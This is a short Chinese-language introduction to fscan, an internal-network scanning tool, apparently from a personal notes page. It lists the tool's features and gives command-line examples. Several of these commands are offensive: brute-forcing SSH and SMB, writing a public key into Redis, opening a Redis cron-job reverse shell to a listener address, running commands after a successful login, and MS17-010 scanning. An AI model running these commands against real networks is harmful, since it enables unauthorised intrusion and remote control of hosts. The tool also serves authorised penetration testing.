 一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

项目地址：https://github.com/shadow1ng/fscan

简单用法

```
./fscan -h 192.168.1.1/24 (默认使用全部模块)
./fscan -h 192.168.1.1/16 (B段扫描)
```

其他用法

```
./fscan -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
./fscan -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
./fscan -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
./fscan -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
./fscan -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
./fscan -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
./fscan -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)
./fscan -h 192.168.1.1/8 (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
./fscan -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
./fscan -h 192.168.1.1/24 -m ms17010 (指定模块)
./fscan -hf ip.txt (以文件导入)
./fscan -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
```

![image-20230103114843547](../../images//image-20230103114843547.png)

